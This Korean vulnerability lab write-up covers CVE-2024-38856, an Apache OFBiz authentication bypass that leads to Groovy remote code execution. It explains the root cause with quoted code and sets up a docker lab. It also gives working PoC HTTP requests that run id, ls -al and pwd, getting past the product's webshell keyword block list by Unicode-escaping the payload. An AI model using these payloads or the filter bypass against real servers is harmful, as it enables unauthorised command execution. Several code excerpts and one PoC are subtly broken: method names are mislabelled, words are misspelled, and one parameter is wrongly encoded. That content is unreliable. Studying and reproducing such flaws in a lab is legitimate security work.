

# Apache OFBIZ 인증 우회로 인해 RCE가 발생합니다(CVE-2024-38856)

[ENGLISH(영어 버전)](README_en.md)
[中文版本(중국어 버전)](README.zh-cn.md)


Apache OFBIZ는 오픈 소스 엔터프라이즈 리소스 플래닝(ERP) 시스템입니다. 이 시스템은 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 일련의 엔터프라이즈 애플리케이션을 제공합니다.

이 취약점은 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 의 불완전한 수정으로 인해 발생합니다. Apache OFBIZ 버전 18.12.11에서는 개발자들이 취약점을 수정했다고 생각하지만, 실제로는 이를 악용하는 한 가지 방법만 다루었습니다. Groovy 표현식 주입은 여전히 존재하며 권한이 없는 사용자가 서버에서 임의의 명령을 실행할 수 있도록 합니다.

## 취약점 근본 원인

Apache OFBiz의 URI처리 메커니즘에서 인증 처리 과정에 근본  원인이 존재한다.
requestUri는 인증검사가 수행되지만 overrideViewUri는 인증검사가 수행되지 않는다.

Apache OfBiz에서는 Controller.xml에서 인증 여부를 정의 하고 있다.
auth 속성 값으로 인증의 필요 여부를 엔트포인트 마다 지정해주고 있다.
해당 엔드포인트의 auth 속성이 “false”이면 인증이 필요하지 않고, ”true”이면 인증이 필요하다.
```
<request-map uri="forgotPassword">
    <security https="true" auth="false"/>
    <response name="success" type="view" value="forgotPassword"/>
</request-map>

<request-map uri="ProgramExport">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="ProgramExport"/>
</request-map>
```

Apache OfBiz는 요청을 받으면 서버는 path, requestUri, overrideViewUri 변수 값을 초기화 한다.
```
String Path = request.getPathInfo();
String requestUri = getRequestUri(path);
String overrideViewUri = getOverrideViewUri(path);
```

getRequestUri매서드는 경로를 “/”로 split하고 제일 첫 번째 요소(index 0) 값을 반환한다.
경로가 /forgotPassword/ProgramExport라고 하면 첫번째 요소인 forgotPassword를 반환한다.
즉, requestUri값은 forgotPassword값으로 초기화 된다.
```
Public static String getRequestUri(String path){
    List<String> pathInfo = StringUtil.split(path, "/");
    if (UtilValidate.isEmpty(pathInfo)) {
        Debug.logWarning("Got nothing when splitting URI: " + path, module);
        return null;
    }
    if (pathInfo.get(0).indexOf('?') > -1) {
        return pathInfo.get(0).substring(0, pathInfo.get(0).index0f('?'));
    } else {
        return pathInfo.get(0);
    }
}
```

getOverrideViewUri매서드는 경로를 “/”로 split한 후 첫번째 요소를 삭제하고 2번째 요소(index 1)값을 반환한다.
첫번째 박스 내용을 보면 pathItemList의 2번째 요소(index 1)부터 끝까지를 추출하는 것을 볼 수 있다.
즉, overrideViewUri값은 ProgramExport값으로 초기화 된다.
```
Public static String getRequestUri(String path){
    List<String> pathInfo = StringUtil.split(path, "/");
    if (pathItemList == null) {
        return null;
    }

    pathItemList = pathItemList.subList(1, pathItemList.size());

    String nextPage= null;
    for (String pathItem: pathItemList) {
        if (pathItem.index0f('~') != 0) {
            if (pathItem.index0f('?') > -1) {
                pathItem = pathItem.substring(0, pathItem.index0f('/'))
            }
            nextPage = (nextPage == null ? pathItem : nextPage + "/" + pathItem)
        }
    }
}
```

최종 값은 requestUri = forgotPassword, overrideViewUri = ProgramExport이다.
RequestHander매서드에서 인증검사가 수행되는데
requestUri값에 대해서만 수행되기 때문에 문제가 발생하게 된다.
즉, requestUri에 들어갈 값에 auth속성이 false인 엔드포인트 값을 넣어 인증 검사를 우회할 수 있다.
```
public class RequestHandler {
    ...
    ...
    if(requestMap.securityAuth) {
        ...
    }
    ...
}
```

이후 requestView로 렌더링을 진행하게 되는데 이때 ProgramExport를 렌더링해서 인증이 필요한 엔드포인트에 인증을 우회하여 접근이 가능하게 된다.
```
...
renderView(viewName, requestMap.securityExternalView, request, reponse, saveName);
...
```


참고 자료:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7 >
- <https://forum.butian.net/article/524 >
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz >
- <https://www.dottak.me/posts/2025-03-04-apache-ofbiz-1-day-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0-4-cve-2024-38856>
- <https://www.sonicwall.com/blog/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability>

## 취약한 환경

window환경에서만 동작합니다.
다음 명령을 실행하여 Apache OfBiz 18.12.14 서버를 시작합니다:

```
docker-compose up
```

잠시 기다린 후 'https://localhost:8443/accounting'에서 로그인 페이지를 확인할 수 있습니다.


## Impact가 발생하기 위한 전제 조건

1. 공격에 사용할 엔드포인트가 스크립트를 실행하는 페이지여야 한다.
2. 해당 페이지가 어떤 언어의 스크립트를 실행하는지 알아야 한다.

ProgramExport 서비스는 인증된 사용자가 요청을 하면 해당 서비스의 뷰를 렌더링하기 위해 EntityScreens.xml을 실행하고, 이로 인해 스크린 위젯이 실행된다.

EntityScreens.xml의 코드를 확인해 보면 script 요소에 있는 groovy스크립트를 실행하는 것을 확인할 수 있다.
```
<screen name="ProgramExport">
    <section>
        <actions>
            <set field="titleProperty" value="PageTitleEntityExportAll"/>
            <set field="tabButtonItem" value="programExport"/>
            <script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                     <screenlet>
                        <include-form name="ProgramExport" location="component://webtools/widget/MiscForms.xml"/>
                    </screenlet>
                    <screenlet>
                        <platform-specific>
                            <html><html-template location="component://webtools/template/entity/ProgramExport.ftl"/></html>
                        </platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

ProgramExport.groovy 스크립트를 확인해 보면
요청에서 groovyProgram이 없으면 기본 스크립트 템플릿을 제공하고 있다면, 요청으로 전달된 해당 스크립트를 사용하게 된다.
```
if (!parameters.groovyProgram) {
    groovyProgram = '''
    '''
    parameters.groovyProgram = groovyProgram
} else {
    groovyProgram = parameters.groovyProgram
}

// Add imports for script.
def importCustomizer = new ImportCustomizer()
importCustomizer.addImport("org.apache.ofbiz.entity.GenericValue")
importCustomizer.addImport("org.apache.ofbiz.entity.model.ModelEntity")
def configuration = new CompilerConfiguration()
configuration.addCompilationCustomizers(importCustomizer)

Binding binding = new Binding()
binding.setVariable("delegator", delegator)
binding.setVariable("recordValues", recordValues)

ClassLoader loader = Thread.currentThread().getContextClassLoader()
def shell = new GroovyShell(loader, binding, configuration)

if (UtilValidate.isNotEmpty(groovyProgram)) {
    try {
        // Check if a webshell is not uploaded but allow "import"
        if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
            logError("================== Not executed for security reason ==================")
            request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
            return
        }
        shell.parse(groovyProgram)
        shell.evaluate(groovyProgram)
        recordValues = shell.getVariable("recordValues")
        xmlDoc = GenericValue.makeXmlDocument(recordValues)
        context.put("xmlDoc", xmlDoc)
    } catch(MultipleCompilationErrorsException e) {
```

## 취약한 URL

- POST /webtools/control/forgotPassword/ProgramExport
- POST /webtools/control/main/ProgramExport
- POST /webtools/control/showDateTime/ProgramExport
- POST /webtools/control/view/ProgramExport
- POST /webtools/control/TestService/ProgramExport

/webtools/control/main 페이지는 인증이 필요없는 페이지 이기에 렌더링이 진행된다.


/webtools/control/TestService 페이지는 인증이 필요없는 페이지 이기에 렌더링이 진행된다.


/webtools/control/entitymaint 페이지는 인증이 필요한 페이지 이기에 렌더링이 진행되지 않고 로그인 페이지가 나온다.


## 취약성 재현 (POC)

Groovy 스크립트에서 'id' 명령을 실행하기 위해 다음 요청을 보냅니다:

### id 명령 POC

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```


Apache Ofbiz는 다음 키워드의 사용을 제한하지만, 유니코드 문자인 '\\u0065xecute'를 사용하면 이 제한을 피할 수 있습니다.

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```

### ls -al 명령 POC
groovyProgram 파라미터에 임의 명령어 (ls-al)을 실행시키는 내용을 유니코드 Escape로 인코딩해 요청을 보내면 RCE가 발생함을 확인할 수 있다.

명령어 (ls -al)
```
grovyProgram=throw new Exception('ls -al'.execute().text);
\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u006C\u0073\u0020\u002D\u0061\u006C\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```


### pwd 명령 POC

명령어 (pwd)
```
grovyProgram=throw new Exception('pwd'.execute().text);
\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B

